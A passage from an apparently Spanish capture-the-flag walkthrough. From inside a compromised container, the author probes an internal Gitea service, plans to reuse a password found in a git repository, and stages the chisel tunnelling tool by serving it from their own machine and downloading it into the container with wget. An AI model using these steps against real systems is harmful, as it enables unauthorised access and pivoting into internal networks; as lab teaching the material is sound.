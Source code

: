 Parece que el **puerto 3000** está almacenando algo.

Usemos **wget** para ver qué es:
```bash
/app # wget -qO- http://172.17.0.1:3000
wget -qO- http://172.17.0.1:3000
<!DOCTYPE html>
<html lang="en-US" class="theme-">
<head>
        <meta charset="utf-8">
        <meta name="viewport" content="width=device-width, initial-scale=1">
        <title> Gitea: Git with a cup of tea</title>
        <link rel="manifest" href="data:application/json;base64,eyJuYW1lIjoiR2
...
...
...
```
Es una página llamada **Gitea**; investiguemos que es:

| **Gitea Software** |
|:-----------:|
| *Gitea es un paquete de software de código abierto para alojar el control de versiones de desarrollo de software utilizando Git, así como otras funciones de colaboración como el seguimiento de errores y los wikis.* |

<br>

Entonces puede que aquí sirva la contraseña que encontramos al enumerar el **repositorio local de git**.

Necesitamos ver la página y para lograr esto, utilizaremos la herramienta **chisel**.

Descargala de aquí:
* <a href="https://github.com/jpillora/chisel/releases" target="_blank">Repositorio de jpillora: chisel - releases</a>

Una vez que la descargues, descomprimerlo con **gunzip**:
```bash
gunzip chisel_1.10.1_linux_amd64.gz

mv chisel_1.10.1_linux_amd64 chisel

chmod +x chisel
```

Ahora envíala al contenedor:

* Abre un servidor en **Python**:
```bash
python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

* En el contenedor, muevete al **directorio /tmp** y descarga **chisel**:
```bash
/tmp # wget http://Tu_IP:8000/chisel
wget http://Tu_IP:8000/chisel
Connecting to Tu_IP:8000 (Tu_IP:8000)
saving to 'chisel'
chisel               100% |********************************| 9152k  0:00:00 ETA
'chisel' saved
```
